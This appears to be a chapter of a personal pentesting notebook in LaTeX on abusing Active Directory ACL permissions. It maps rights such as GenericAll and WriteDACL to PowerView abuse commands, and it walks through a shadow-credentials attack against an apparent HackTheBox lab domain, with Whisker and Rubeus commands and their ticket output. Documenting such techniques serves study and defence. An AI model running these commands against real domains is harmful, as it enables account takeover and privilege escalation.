\chapter{ACL Abuse}
\section{Introduction}
\href{https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces}{Abusing Active Directory ACLs/ACEs}
Posing a serious threat to the security posture of
the domain, a slight misconfiguration to an ACL can leak permissions to other
objects that do not need it.

Attackers utilize ACE entries to either further access or establish
persistence. Many organizations are unaware of the ACEs applied to each object
or the impact that these can have if applied incorrectly. They cannot be
detected by vulnerability scanning tools, and often go unchecked for many
years, especially in large and complex environments. ACL abuse can be a great
way to move laterally/vertically and even achieve full domain compromise. Some
example Active Directory object security permissions are as follows. These can
be enumerated (and visualized) using a tool such as BloodHound, and are all
abusable with PowerView, among other tools:
\begin{itemize}
    \item \verb+ForceChangePassword+ abused with \verb+Set-DomainUserPassword+
    \item \verb+Add Members+ abused with \verb+Add-DomainGroupMember+
    \item \verb+GenericAll+ abused with \verb+Set-DomainUserPassword+ or
        \verb+Add-DomainGroupMember+
    \item \verb+GenericWrite+ abused with \verb+Set-DomainObject+
    \item \verb+WriteOwner+ abused with \verb+Set-DomainObjectOwner+
    \item \verb+WriteDACL+ abused with \verb+Add-DomainObjectACL+
    \item \verb+AllExtendedRights+ abused with \verb+Set-DomainUserPassword+ or
        \verb+Add-DomainGroupMember+
    \item \verb+Addself+ abused with \verb+Add-DomainGroupMember+
\end{itemize}

In this module, we will cover enumerating and leveraging four specific ACEs to
highlight the power of ACL attacks:
\begin{itemize}
        \item \verb+ForceChangePassword+ gives the right to reset a user's
            password without first knowing their password.
        \item \verb+GenericWrite+ - gives us the right to write to any
            non-protected attribute on an object. with this access over:
            \begin{itemize}
                    \item a user: it is possible to assign the user an SPN and perform a Kerberoasting attack. 
                    \item  a group it is possible to add a user or another security principal. 
                    \item a computer object, it is possible  to  perform a resource-based constrained delegation attack.
            \end{itemize}
        \item \verb+AddSelf+ shows security groups that a user can add themselves to.
        \item \verb+GenericAll+ this grants full control over a target object.
            Again, depending on if this is granted over:
            \begin{itemize}
                \item a user or group, it become possible to modify group membership, force change a password, or perform a targeted Kerberoasting attack. 
                \item a computer object and the Local Administrator Password
                    Solution (LAPS) is in use in the environment, it is
                    possible to  read the LAPS password and gain local admin
                    access to the machine which may aid in lateral movement or
                    privilege escalation in the domain if we can obtain
                    privileged controls or gain some sort of privileged
                    access.o
            \end{itemize}
\end{itemize}

This graphic shows an excellent breakdown of the varying possible ACE attacks
and the tools to perform these attacks from both Windows and Linux (if
applicable). 

\begin{figure}[!ht]
    
\includegraphics[width=0.9\textheight,angle=90,origin=c]{ad/acl/images/ACL_attacks_graphic.png}
  \caption{ACL attack graphic}
  \label{fig:ACL-attack-graphic}
\end{figure}

Some common attack scenarios may include:

\begin{tabularx}{\linewidth}{|l|X|}
    \hline
Attack &	Description\\
    \hline
Abusing forgot password permissions &	Help Desk and other IT users are often
granted permissions to perform password resets and other privileged tasks. If
it is possible to take over an account with these privileges (or an account in a group
that confers these privileges on its users), it is possible  to perform a
password reset for a more privileged account in the domain.\\
    \hline
Abusing group membership management &	It's also common to see Help Desk and
other staff that have the right to add/remove users from a given group. It is
always worth enumerating this further, as sometimes it is possible  add a
controled  account  into a privileged built-in AD group or a group that grants
some sort of interesting privilege.\\
    \hline
Excessive user rights &	it is common to see user, computer, and group objects
with excessive rights. This could occur after some sort of software install
(Exchange, for example, adds many ACL changes into the environment at install
time) or some kind of legacy or accidental configuration that gives a user
unintended rights. Sometimes it is possible to  take over an account that was
given certain rights out of convenience or to solve a nagging problem more
quickly.\\
    \hline
\end{tabularx}

\section{Key credential abuse}

This attack is described in
\href{https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab}{Shadow
Credentials: Abusing Key Trust Account Mapping for Account Takeover}.

Using the permission \verb+AddKeyCredentialLink+, it is possible to add “Key
Credentials” to the attribute \verb+msDS-KeyCredentialLink+ 
of the target user/computer object and then perform Kerberos authentication as
that account using \verb+PKINIT+. 

then executing the command line provided for \verb+Rubeus+ we obtein the NTLM
\begin{verbatim}
C:\Users\btables\Desktop>.\whisker add /target:SFLOWERS /dc:10.10.11.175

...SNIP...
Rubeus.exe asktgt /user:SFLOWERS /certificate:MIIJsAIBAzCCCWwGCSqGSIb3DQEHAaSqGS
...SNIP...
/password:"ORzbqu1VzP82H5G8" /domain:outdated.htb /dc:10.10.11.175 /getcredentials /show
...SNIP...
[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=SFLOWERS
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\SFLOWERS'
[*] Using domain controller: 10.10.11.175:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc6gAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoQ4bDE9VVERBVEVELkhUQqIhMB+g
...SNIP...
      MDJaqA4bDE9VVERBVEVELkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  SFLOWERS
  UserRealm                :  OUTDATED.HTB
  StartTime                :  10/12/2022 1:28:02 AM
  EndTime                  :  10/12/2022 11:28:02 AM
  RenewTill                :  10/19/2022 1:28:02 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  sN5DpS7kQepeI5tv5I/q+Q==
  ASREP (key)              :  03250DCA8CC8E9BA02485E8C847C76D3

\end{verbatim}

more info in \href{https://pentestlab.blog/2022/02/07/shadow-credentials/}{Shadow
Credentials}



\section{Change a user password}
with
powerview~\ref{tool:powerview:Set-DomainUserPasswword} or on a linux box with
\verb+pth-net+ from
\href{https://github.com/byt3bl33d3r/pth-toolkit}{pth-toolkit}

\section{Add a user to a group}
with
powerview~\ref{tool:powerview:-DomainGroupMember} or on a linux box with
\verb+pth-net+ from
\href{https://github.com/byt3bl33d3r/pth-toolkit}{pth-toolkit}

\section{SPNify a user} 
with powerview~\ref{tool:powerview:Set-DomainObject} using
\href{https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname}{servicePrincipalName
attibute} or from linux box using
\href{https://github.com/ShutdownRepo/targetedKerberoast}{targetedKerberoast}

\section{Links}
\begin{itemize}
    \item 
        \url{https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#abusing-active-directory-aclsaces} \item 
        \url{https://www.youtube.com/watch?v=z8thoG7gPd0}
\end{itemize}
